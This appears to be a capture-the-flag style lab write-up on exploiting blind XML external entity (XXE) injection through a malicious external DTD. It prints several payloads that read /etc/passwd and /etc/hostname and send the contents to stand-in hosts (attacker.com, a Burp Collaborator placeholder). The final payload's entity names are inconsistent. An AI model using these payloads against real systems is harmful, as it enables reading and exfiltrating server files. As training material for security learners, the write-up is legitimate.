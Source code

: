 Title: Exploiting blind XXE to exfiltrate data using a malicious external DTD
Level: Practitioner
Desc:  This lab has a "Check stock" feature that parses XML input but does not display the result.
To solve the lab, exfiltrate the contents of the /etc/hostname file. 


First of all what is the difference between classic XXE using interal entity and external DTD.
DTD - Document Type Definition
- An internal DTD is defined inside the XML document itself.
- An external DTD is loaded from an outside source, typically via a URL.
  
DTD can be used to bypass protection. 

classic XXE example using an internal entity:
```
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>
```
External DTDs can be used to bypass protections — like if entity definitions are restricted internally, but the parser still fetches external DTDs.

External DTD delivering the payload:
```
<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://attacker.com/malicious.dtd">
<data>&sendFile;</data>
```
Then, malicious.dtd might contain:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY sendFile SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
```

So, using external DTD we can bypass protections and still exploit XXE vulnerability.

LAB:
go to exploit server and add the exploit:
![image](https://github.com/user-attachments/assets/805d7fe4-2bad-4d42-b65d-311e8a2112f2)
payload: 
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY % sendFile SYSTEM 'http://BURP_COLLABORATOR?data=%file;'>">
%eval;
%sendfile;
```














